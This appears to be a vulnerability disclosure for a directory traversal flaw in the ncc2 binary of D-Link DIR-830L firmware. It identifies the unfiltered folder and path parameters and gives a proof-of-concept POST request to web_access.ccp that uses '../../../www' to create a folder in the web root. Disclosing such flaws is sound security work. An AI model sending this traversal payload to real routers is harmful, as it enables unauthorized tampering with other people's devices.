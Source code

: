 # Summary
There is a directory traversal vulnerability in `ncc2` binary file of D-Link DIR830LA1_FW100B07, an attacker can escape from the restricted directory and create a folder in any writable path.

Fimware download link : 
https://legacyfiles.us.dlink.com/DIR-830L/REVA/FIRMWARE/DIR-830L_REVA_FIRMWARE_1.00B07.ZIP

Affected component is `callback_ccp_web_access` function and `web_access.ccp`.

# Details
Vulnerable code is in `callback_ccp_web_access` function of `ncc2` binary file,
when `ccp_act=setfolder`, `sub_4B188C` will be called:
![image](https://github.com/user-attachments/assets/02d8d849-620b-4064-90a9-65729467868d)

If the conditions are met, it will use `mkdir` to create a folder:
![image](https://github.com/user-attachments/assets/0dc1da94-1e2b-40e1-9d58-6b5454d49fe2)

It filters parameters `folder` and `path`, which means we can't inject command:
![image](https://github.com/user-attachments/assets/db4b7adc-b185-4e68-964e-d8b15d93a322)

However, it doesn't filter `.` and `/`, leading to directory traversal vulnerability.

An attacker can escape from the restricted directory and create a folder in any writable path.

Here we take creating "poc4.html" in the website root directory "/www" as an example:
```
POST /web_access.ccp

ccp_act=setfolder&tok=ip_addr=&folder=poc4.html&path=../../../www
```
![DIR830-Directory-Traversal](https://github.com/user-attachments/assets/33131461-7697-45c4-b351-e41583f6e225)



# PoC
**Login** first to get your cookie.
```
POST /web_access.ccp

ccp_act=setfolder&tok=ip_addr=&folder=poc4.html&path=../../../www
```
![DIR830-Directory-Traversal](https://github.com/user-attachments/assets/33131461-7697-45c4-b351-e41583f6e225)
